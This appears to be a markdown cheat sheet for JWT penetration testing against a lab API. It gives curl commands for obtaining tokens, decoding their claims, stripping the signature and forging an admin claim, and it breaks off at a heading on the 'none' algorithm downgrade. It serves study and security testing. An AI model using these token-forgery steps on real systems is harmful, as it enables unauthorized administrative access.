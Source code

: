 # JSON Web Tokens JWT Penetration Testing

## Tools: Burpsuite, cURL, https://jwt.io/ (JWT Decoder and editor)

## Attacks:

### 1) Sensitive Information Disclosure

 - curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password1" }' http://10.10.190.243/api/v1.0/example1 (Authenticate with a user and grab the JWT token from that user)

### Go to jwt.io to decode the token and check the values inside the claim portion of the token. We may find sensitive information like internal resources, etc.

### 2) Signature is not verified

 - curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password1" }' http://10.10.190.243/api/v1.0/example1 (Grab the JWT token)

 - curl -H 'Authorization: Bearer JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=user (Authenticate with the JWT token)

### Go to jwt.io and try to verify the user WITHOUT the signature by removing the signature part leaving ONLY the dot (.).

### Try to authenticate with the SIGNATURELESS token again to check if you can verify the user even without the signature.

### Modify any values we may find in the token. Example:

#### Change the admin value from 0 to 1, then verify as admin with the newly modified JWT token.

 - curl -H 'Authorization: Bearer MODIFIED_SIGNATURELESS_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin


### 3) Signature algorithm downgrade to NONE




